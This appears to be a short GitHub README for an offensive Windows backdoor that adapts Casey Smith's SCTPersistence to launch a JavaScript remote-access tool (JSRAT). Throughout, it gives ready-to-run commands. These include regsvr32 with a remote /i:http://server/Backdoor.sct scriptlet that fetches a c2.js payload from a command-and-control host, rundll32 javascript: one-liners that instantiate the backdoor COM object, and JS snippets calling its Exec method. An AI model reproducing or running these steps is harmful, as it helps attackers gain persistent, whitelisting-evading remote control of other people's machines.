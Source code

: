 Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee

https://github.com/subTee/SCTPersistence


His Way:


1.On host, execute regsvr32.exe /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-rewrite the regkey


-the Class definition comes form the interwebs http://server/c2.js


2.c2.js


-javascript payload


-.sct format


3.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Component.Backdoor");x.Main();`


or


-js


`var x = new ActiveXObject("Component.Backdoor");
x.Main();
var x = new ActiveXObject("Component.Backdoor");
x.Exec();`


My Way:


1.On host, execute regsvr32.exe /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-Connect to the JSRAT server


2.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Empire");x.Exec();`


-js


`var ref = new ActiveXObject("JSRAT");
ref.Exec();`




---
###Usage:

1.(local)


`regsvr32.exe /s /i:Backdoor.sct scrobj.dll`


or (remote)


`regsvr32.exe /s /i:http://example/Backdoor.sct scrobj.dll`


2.run BackdoorTest.js to start JSRAT

 













